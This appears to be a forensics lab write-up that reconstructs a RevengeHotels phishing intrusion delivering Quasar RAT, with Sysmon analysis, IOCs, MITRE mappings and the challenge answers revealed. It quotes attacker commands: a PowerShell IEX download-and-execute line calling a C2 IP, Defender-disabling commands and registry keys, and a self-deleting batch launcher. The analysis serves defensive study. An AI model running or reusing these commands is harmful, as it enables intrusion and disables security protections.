








---
## Overview

Full attack chain reconstruction of a **RevengeHotels APT** intrusion against an administrator workstation. RevengeHotels is a Brazilian threat group targeting the hospitality sector using invoice-themed phishing to deliver a multi-stage loader chain culminating in **Quasar RAT** deployment.

**Key lesson from this lab:** Always export `.evtx` logs to CSV using `EvtxECmd` and use timeline explorer.

---

## Tooling Setup — Critical First Step

Export Sysmon logs to CSV for proper Timeline Explorer analysis:

```bash
EvtxECmd.exe -f "C:\Users\Administrator\Desktop\Start Here\Artifacts\PC\Windows\System32\winevt\Logs\Microsoft-Windows-Sysmon%4Operational.evtx" --csv "C:\Temp" --csvf sysmon.csv
```

Load `sysmon.csv` into Timeline Explorer — columns render correctly with EventID, TimeCreated, PayloadData fields fully readable.

---

## Stage 1 — Initial Access: Phishing JS Dropper

### Chrome History Analysis

Browser history recovered from:
```
Artifacts\PC\Users\Administrator\AppData\Local\Google\Chrome\User Data\Default\History
```



**Q1 — JS filename:** `invoice82962.js`
**Q2 — Hosting domain:** `hotelx[.]rf[.]gd`

Full download URL: `hxxps[://]hotelx[.]rf[.]gd/?i=1`

`rf.gd` is a free subdomain service — low-cost throwaway infrastructure consistent with RevengeHotels operations. The filename uses invoice-themed social engineering to trick the target into executing it.

**MITRE: T1566.001 — Phishing: Spearphishing Attachment**
**MITRE: T1204.002 — User Execution: Malicious File**

---

## Stage 2 — Execution: JS → PowerShell

### Sysmon Event ID 1 — Process Creation

Filtering the CSV in Timeline Explorer on Event ID **1** and searching for `invoice82962` reveals `wscript.exe` executing the JS file and spawning PowerShell:


```
ParentImage: C:\Windows\System32\WScript.exe
ParentCommandLine: "C:\Windows\System32\WScript.exe" "C:\Users\Administrator\Downloads\invoice82962.js"
CommandLine: powershell.exe -executionPolicy Bypass -File "C:\Users\Public\Scripts\SGDoHBKNUpLKXCAoTHXdBGlnQJLZCGBOVGLH_20250928T061424.ps1"
```

PowerShell script path: `C:\Users\Public\Scripts`

The JS performs several actions before spawning PowerShell:
- Disables Windows Defender real-time monitoring via `Set-MpPreference -DisableRealtimeMonitoring $true` — **T1562.001**
- Sleeps 3 seconds (`WScript.Sleep(3000)`) to evade sandbox time limits
- Creates the PS1 file in `C:\Users\Public\Scripts\` using `ActiveXObject`
- Executes it with `-executionPolicy Bypass`

**MITRE: T1059.001 — Command and Scripting Interpreter: PowerShell**
**MITRE: T1562.001 — Impair Defenses: Disable or Modify Tools**

---

## Stage 3 — Second Stage Download

The PowerShell script contains a Base64 encoded command:
```
SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkA...
````

Decoded:

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://3[.]122[.]239[.]15:8000/cargajecerrr.txt')
```

`cargajecerrr.txt` executes entirely in memory via `IEX` (Invoke-Expression) — fileless execution. It downloads two files to `C:\Users\Public\Scripts\`:



Downloaded files:`venumentrada.txt`, `runpe.txt`
C2 IP:** `3[.]122[.]239[.]15`

**Delivery chain:**
```
cargajecerrr.txt (IEX — memory only)
  → downloads venumentrada.txt + runpe.txt
    → runpe.txt converts venumentrada.txt (Base64 → EXE)
      → saves as swchost.exe
        → executes swchost.exe
````

**Q5 — Actual file type of venumentrada.txt:** `exe` **Q6 — Executed file after conversion:** `swchost.exe`

**MITRE: T1027 — Obfuscated Files or Information** **MITRE: T1105 — Ingress Tool Transfer**

---

## Stage 4 — Quasar RAT: swchost.exe

### dnSpy Analysis

Opening `C:\Users\Public\Scripts\swchost.exe` in dnSpy reveals:

```csharp
[assembly: AssemblyTitle("Quasar Client")]
[assembly: AssemblyCopyright("Copyright © MaxXor 2023")]
[assembly: TargetFramework(".NETFramework,Version=v4.5.2")]
```

`swchost.exe` is **Quasar RAT v1.4.1** — open source .NET RAT. The name `swchost` masquerades as the legitimate `svchost.exe` Windows process.

Notable imports visible in dnSpy:

- `Gma.System.MouseKeyHook` — keylogger component
- `System.Runtime.InteropServices` — Windows API interop
- `RtlSetProcessIsCritical` — marks process as critical to prevent termination

Windows API function:`RtlSetProcessIsCritical`

```csharp
[DllImport("ntdll.dll", EntryPoint = "RtlSetProcessIsCritical", SetLastError = true)]
```

This causes a BSOD if the process is forcibly terminated — a strong self-protection mechanism.

---

## Stage 5 — Defense Evasion: Registry Modifications

### Sysmon Event ID 13 — Registry Value Set

Filtering Timeline Explorer CSV on Event ID **13**, searching `swchost`, then grouping by TargetObject reveals **12 unique registry keys** modified to weaken defenses:

All keys under `HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\`:

| Key | Value |
| --- | --- |
| `MpEngine\MpEnablePus` | DWORD 0 |
| `DisableAntiSpyware` | DWORD 1 |
| `DisableAntiVirus` | DWORD 1 |
| `DisableRealtimeMonitoring` | DWORD 1 |
| `Notifications\DisableNotifications` | DWORD 1 |
| `Notifications\DisableEnhancedNotifications` | DWORD 1 |
| + 6 additional Defender keys | — |

Registry keys modified: `12`

**MITRE: T1562.001 — Impair Defenses: Disable or Modify Tools**

---

## Stage 6 — Persistence

### Registry Run Key

Sysmon Event ID 13 — Sysmon auto-tagged with `technique_id=T1547.001`:
```
TargetObject: HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce\svchostAS
Details: C:\Users\Public\Scripts\swchost.exe
Image: C:\Windows\System32\wscript.exe
```

Persistence registry key:
```
SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce\svchostAS
```
### Self-Copy to AppData

Malware copies itself to a secondary location:



Persistence copy path:
```
C:\Users\Administrator\AppData\Roaming\host\swchost.exe
````

A BAT file (`2Fd68NEEtjEx.bat`) was also created in Temp to restart the malware and self-delete:


```batch
@echo off
ping -n 10 localhost > nul
start "" "C:\Users\Administrator\AppData\Roaming\host\swchost.exe"
del /a /q /f "C:\Users\Administrator\AppData\Local\Temp\2Fd68NEEtjEx.bat"
```

### VBS Persistence

Sysmon Event ID 1 shows `wscript.exe` executing a VBS script from Temp:


```
CommandLine: "wscript.exe" "C:\Users\Administrator\AppData\Local\Temp\KOoNLZeCGlnQ.vbs"
```

**MITRE: T1547.001 — Boot/Logon Autostart: Registry Run Keys**

---

## Stage 7 — Collection & Exfiltration

### Data Collection Executable

A second executable dropped for data collection purposes found in:
```
Artifacts\PC\Users\Administrator\AppData\Local\Temp\
```

Data collection executable:** `Flfs6heTV2lb.exe` (64MB — 9/28/2025 5:16 PM)

### Archive Creation

Searching Timeline Explorer for `.zip` in Event ID 11:


```
TargetFilename: C:\Users\Public\Scripts\data.zip
````

Archive creation timestamp:** `2025-09-28 17:16`

**MITRE: T1560.001 — Archive Collected Data: Archive via Utility** **MITRE: T1041 — Exfiltration Over C2 Channel**

---

## IOCs

|Type|Value|
|---|---|
|JS Dropper|invoice82962[.]js|
|Hosting Domain|hotelx[.]rf[.]gd|
|PS1 Script|C:\Users\Public\Scripts\SGDoHBKNUpLKXCAoTHXdBGlnQJLZCGBOVGLH_20250928T061424[.]ps1|
|Stage 2 Loader|cargajecerrr[.]txt|
|Downloaded File 1|venumentrada[.]txt|
|Downloaded File 2|runpe[.]txt|
|Quasar RAT|swchost[.]exe|
|Persistence Copy|C:\Users\Administrator\AppData\Roaming\host\swchost[.]exe|
|VBS Persistence|KOoNLZeCGlnQ[.]vbs|
|BAT Launcher|2Fd68NEEtjEx[.]bat|
|C2 IP|3[.]122[.]239[.]15|
|C2 Port|8000|
|Data Collection EXE|Flfs6heTV2lb[.]exe|
|Exfil Archive|C:\Users\Public\Scripts\data[.]zip|
|Threat Actor|RevengeHotels APT|
|Malware Family|Quasar RAT v1.4.1|

## MITRE ATT&CK

|Technique|ID|Notes|
|---|---|---|
|Spearphishing Attachment|T1566.001|invoice82962.js delivered via phishing|
|User Execution: Malicious File|T1204.002|Victim opened JS via wscript|
|Visual Basic / JS Interpreter|T1059.005|wscript.exe executing JS dropper|
|PowerShell|T1059.001|-ExecutionPolicy Bypass PS1 execution|
|Obfuscated Files|T1027|venumentrada.txt Base64 encoded PE|
|Impair Defenses|T1562.001|12 Defender registry keys disabled|
|Registry Run Keys|T1547.001|RunOnce\svchostAS persistence|
|Ingress Tool Transfer|T1105|cargajecerrr.txt downloads stage 2|
|Application Layer Protocol|T1071.001|C2 over HTTP port 8000|
|Data from Local System|T1005|Flfs6heTV2lb.exe collection|
|Archive Collected Data|T1560.001|data.zip created 17:16|
|Exfiltration Over C2|T1041|data.zip exfiltrated via Quasar C2|

## Lessons Learned

- **Export evtx to CSV first** — loading raw `.evtx` into Timeline Explorer without Sysmon installed on the analysis VM renders unreadable garbage. Always run `EvtxECmd` first and load the CSV. This single step would have saved hours on this lab
- **dnSpy for .NET malware** — Quasar RAT is open source .NET, dnSpy decompiles it to near-readable C#. API calls like `RtlSetProcessIsCritical`, hardcoded filenames, and registry keys are all visible directly in the source — faster than hunting through thousands of Sysmon events
- **IEX + DownloadString = fileless** — `cargajecerrr.txt` never touched disk as a file, it executed entirely in memory. No Event ID 11 for it — only detectable via Event ID 1 CommandLine showing the encoded PowerShell
- **RevengeHotels infrastructure pattern** — free subdomain services (`rf.gd`) + invoice-themed lures + Quasar RAT is a consistent RevengeHotels signature. The `hotelx` subdomain name is a direct nod to their targeting of the hospitality sector


---

<div class="qa-item"> <div class="qa-question-text">During the initial compromise, the threat actor distributed a phishing email containing a URL pointing to a malicious JavaScript file disguised as a legitimate document. What is the name of the JavaScript file downloaded from the phishing link?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">invoice82962.js</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">The malicious JavaScript payload was hosted on a compromised website to facilitate the initial infection. What is the complete domain name that hosted the malicious JS file?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">hotelx.rf.gd</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">The JavaScript file created a PowerShell script to advance the attack chain. What is the full directory path where the PowerShell script was created from the JS file?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">C:\Users\Public\Scripts</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">The PowerShell script invoked another PowerShell command to download two additional files onto the device and then executed one of them. What are the names of the downloaded files?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">venumentrada.txt, runpe.txt</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">The downloaded files included obfuscated content that needed to be converted to reveal their true nature. What is the actual file type of the second downloaded file?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">exe</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">The first downloaded file converted the second file to its original format, saved it, and then executed it. What is the name of the executed file that was run after conversion?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">swchost.exe</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">The initial JavaScript file employed specific technique to evade security controls and prevent detection. What is the MITRE ATT&CK technique ID for the method used by the JavaScript file?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">T1562.001</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">The malicious executable modified multiple security-related registry keys to weaken system defenses. How many registry keys were edited by the malicious executable?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">12</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">The malicious executable established communication with a C2 server infrastructure. What is the IP address of the C2 server that the malicious executable contacted?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">3.122.239.15</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">As part of its persistence strategy, the malware created a copy of itself in a different location. What is the full path where the malware copied itself?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">C:\Users\Administrator\AppData\Roaming\host\swchost.exe</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">To maintain persistence after system reboots, the executable added an entry to a specific registry location. What is the full path of the registry key where the executable added its persistence mechanism?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce\svchostAS</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">A VBS script was deployed as an additional persistence mechanism to maintain the malware's presence. What is the name of the VBS script executed by the malicious executable for persistence?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">KOoNLZeCGlnQ.vbs</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">To ensure the malware process couldn't be terminated easily, it used a specific Windows API function to mark itself as critical. What Windows API function does the malicious executable use to mark its process as critical to the system?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">RtlSetProcessIsCritical</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">The threat actor deployed an additional executable specifically designed for data collection activities. What is the name of the executable dropped for data collection purposes?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">Flfs6heTV2lb.exe</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">After gathering sensitive data, the malware compressed the collected information into an archive for exfiltration. What is the exact timestamp when the collected data archive was created? (in 24-hour format)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">2025-09-28 17:16</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

